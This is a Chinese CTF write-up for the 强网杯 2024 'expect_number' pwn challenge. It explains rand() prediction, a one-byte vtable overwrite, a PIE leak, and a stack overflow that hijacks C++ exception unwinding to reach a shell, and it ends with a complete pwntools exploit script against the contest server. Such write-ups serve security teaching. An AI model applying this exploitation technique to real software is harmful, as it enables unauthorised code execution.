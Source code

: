 ```yaml
---
title: 强网杯 2024 初赛 - expect_number
date: 2025/02/18 18:53:00
updated: 2025/02/18 18:53:00
tags:
    - c++ exception
    - result predicting
excerpt: 通过修改 `vtable` 指向含栈溢出的 `favorite` 函数，利用异常处理机制劫持控制流至后门函数，成功 get shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

C++写的，程序的主要功能是猜数字，有个全局的结构体，在猜数字的时候使用：

```c
struct counter {
    void (**vtable)(void);
    int cnt;
    byte guess[288];
};
```

具体看到猜数字的过程，首先会用`rand`决定操作符，再由输入的数字(0/1/2)
来决定被操作数，操作数从`guess + cnt`取出，并计算后存入`guess + cnt + 1`，
原来的地方存入输入的数字的码位。程序检查要求操作数不能小于0或大于0x100。

首先预测每次猜数的运算符，并推测想要保持操作数不变所输入的数字：

```c predict.c
// gcc predict.c -g && ./a.out
#include <stdio.h>
#include <stdlib.h>

char buf[64];

static void printbuf(char ch) {
    static int idx = 0;
    if (!ch) {
        buf[idx] = '\0';
        idx = 60; // avoid mess up
    }
    buf[idx++] = ch;
    if (idx >= 50) {
        puts(buf);
        idx = 0;
    }
}

int main(void) {
    srand(1);
    const char *table = "+-*/";
    for (int i = 0; i < 276; i++)
        printbuf(table[rand() % 4]);
    printbuf(0);
    srand(1);
    for (int i = 0; i < 276; i++)
        printbuf(rand() % 4 <= 1 ? '0' : '1');
    printbuf(0);
    return 0;
}
```

于是我们得到了：


```plaintext result
/*-/-/*+--*/*//*+*++/+/-***///-***-/-+/*---/+-*+/*
-*/++-**+---+/+-*---+/*-*/*+/*/++*++//*/++++/+***/
/***/--*-+++-+*---+/+-/--/-/-//+--*-*//++/+-//*++/
+-+/*-*/-//+++-*-+*++*/+///-/++/-+//*-*/--/-*+//+-
++//-**++*++---++/*/*/+-+*-/**-**+-//++/*+//*++*/*
---**-+++**-++**+-*++++//*
11010110001111110100101011111101110100110001001011
01100011000001001000011011101110010011110000101111
11111001000000100001001001010110001011100100111001
00011011011000010010011011101001001110110010101100
00110110010000000111110001011101100110011011100111
00011000011000110010000111
```

看到程序里有`submit`，可以`system("cat gift")`，我直接试了一下，结果远程没有这个文件...

再次检查程序，在全局`counter`之后288字节处存在另一个结构体的虚表，但是，它才对应
`guess`的276字节处。它决定了程序退出时的行为，并且可以在猜数时轻松修改。
程序启动时，这个虚表被绑定到`0x4c48 <- goodbye`，这个函数没有任何漏洞；
但是如果将其绑定到`0x4c60 <- favorite`，由于程序没有canary，因此可以利用其中的
**栈溢出** ，修改rbp和返回地址，触发异常Unwind。检查`system`的交叉引用，
在0x2547的位置存在`system("/bin/sh")`，并且catch块的对象类型和throw的刚好一致，
因此我们可以设置返回地址为catch块地址+1，就可以跳转到后门。

有了以上思考，我们可以先覆盖虚表到`&favorite`，然后`show`借助虚表泄露pieBase，
并计算我们的返回地址，以及rbp为bss，最后执行`favorite`栈溢出跳转到后门拿shell。

## EXPLOIT

```python
from pwn import *
from rich.progress import track
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './expect_number'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.94.231.2', 30773)
    elf = ELF(EXE)

    # use this payload to get gift
    # string = '1101011200212111220010102211110111010112'
    # gift not found on target

    # overflow 1 byte '\x60' on vtable
    string = '1101011000111111010010101111110111010011000100101101' \
             '1000110000010010000110111011100100111100001011111111' \
             '1001000000100001001001010110001011100100111001000110' \
             '1101100001001001101110100100111011001010110000110110' \
             '0100000001111100010111011001100110111001110001101112' \
             '2000220020000111'
    for num in track(string, description='sending 0/1/2 ing...'):
        sh.sendlineafter(b'waiting', b'1')
        sh.sendlineafter(b'choose', num.encode())

    # use show to leak pieBase (vtable of goodbye before, vtable of favorite now)
    sh.sendlineafter(b'waiting', b'2')
    sh.recvuntil(b'\x60')
    pieBase = u64(b'\x60' + sh.recv(5) + b'\0\0') - 0x4c60
    success(GOLD_TEXT(f"Leak pieBase: {pieBase:#x}"))

    sh.sendlineafter(b'waiting', b'4')
    bss = pieBase + 0x5800
    backdoor = pieBase + 0x2516
    # cover rbp with a writable address and retaddr with getnum+52+1
    # triggering throw and unwind to backdoor
    sh.sendafter(b'favorite', b'0' * 0x20 + p64(bss) + p64(backdoor))

    sh.clean()
    sh.interactive()

```

{% note default fa-flag %}
![flag](/assets/qwb2024/expect_number.png)
{% endnote %}

## 参考

[溢出漏洞在异常处理中的攻击利用手法-上](https://xz.aliyun.com/t/12967)
